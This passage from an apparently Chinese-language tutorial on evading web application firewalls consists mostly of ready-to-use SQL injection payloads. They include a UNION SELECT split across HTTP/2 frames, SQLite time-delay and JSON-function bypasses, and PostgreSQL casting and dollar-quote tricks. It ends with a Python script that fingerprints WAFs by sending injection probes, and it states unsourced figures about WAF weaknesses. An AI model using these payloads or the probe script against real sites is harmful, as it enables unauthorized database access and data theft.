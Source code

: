   
  
1. 3. 注入payload分片传输：
```
frame1: q=1'/**/UN
frame2: ION/**/SEL
frame3: ECT 1,2,3-- 
```

  
  
**绕过原理**  
：  
- • 70%的WAF未完整支持HTTP/2帧重组  
  
- • Cloudflare企业版直到2023年Q2才修复此问题  
  
### 八、数据库引擎特性：非标准SQL  
  
**SQLite注入技巧**  
：  

```
' AND randomblob(1000000000) IS NOT NULL--  // 触发延迟

/* JSON函数绕过 */
json_extract('{&#34;a&#34;:&#34;b&#34;}','$.a')='b'
```

  
**PostgreSQL特性利用**  
：  

```
-- 类型转换绕过
'||(SELECT 1 WHERE '1'::text=CAST(version() AS text))--

-- 美元引号
$$' UNION SELECT $$flag$$ FROM $$secret_table$$
```

### 九、WAF规则探针：自动化指纹识别  
  
**Python探测脚本**  
：  

```
import requests

waf_signatures = {
    &#34;Cloudflare&#34;: (&#34;'/*!UNION*/SELECT&#34;, 403),
    &#34;ModSecurity&#34;: (&#34;CONCAT(0x7e,version()&#34;, 500),
    &#34;AWS WAF&#34;: (&#34;WAITFOR DELAY '0:0:5'&#34;, 400)
}

def detect_waf(url):
    for waf, (payload, code) in waf_signatures.items():
        r = requests.get(url + f&#34;?id=1{payload}&#34;)
        if r.status_code == code:
            return waf
    return &#34;Unknown&#34;
```
